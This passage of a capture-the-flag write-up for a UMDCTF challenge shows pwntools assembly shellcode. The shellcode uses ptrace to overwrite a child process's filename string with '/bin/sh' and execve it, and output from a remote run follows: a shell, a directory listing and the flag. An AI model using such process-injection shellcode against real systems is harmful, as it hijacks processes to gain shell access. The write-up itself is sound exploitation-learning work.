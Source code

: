 ```python
patch = asm(
f'''
mov rdi, {binary.search(b'readstory.txt').__next__()}
xor rsi, rsi
xor rdx, rdx
mov rax, {constants.SYS_execve}
syscall
''')
```

Instead of `flag` replacing `readstory.txt`, it's `/bin/sh`:

```assembly
/* /bin/sh as readstory.txt */
mov rdi, {PTRACE_POKETEXT}
mov rsi, {pid}
mov rdx, {binary.search(b'readstory.txt').__next__()}
mov r10, {'0x' + hexlify(b'/bin/sh'[::-1]).decode()}
mov rax, {constants.SYS_ptrace}
syscall
```

See [`exploit2.py`](exploit2.py) for details.

Output:

```bash
# ./exploit2.py REMOTE=1
[+] Opening connection to 0.cloud.chals.io on port 15148: Done
[*] child pid: 1232
[*] Switching to interactive mode
$ ls -l
total 56
drwxr-x--- 1 0 1000  4096 Mar  3 03:26 bin
drwxr-x--- 1 0 1000  4096 Mar  3 03:26 dev
-rwxr----- 1 0 1000    32 Mar  3 03:22 flag
drwxr-x--- 1 0 1000  4096 Mar  3 03:26 lib
drwxr-x--- 1 0 1000  4096 Mar  3 03:26 lib32
drwxr-x--- 1 0 1000  4096 Mar  3 03:26 lib64
drwxr-x--- 1 0 1000  4096 Mar  3 03:26 libx32
-rwxr-x--- 1 0 1000  5628 Mar  3 12:12 readstory.txt
-rwxr-x--- 1 0 1000 17712 Mar  3 03:22 trace_story
$ cat flag
UMDCTF{Tr4C3_Thr0Ugh_3v3rYth1NG}
```

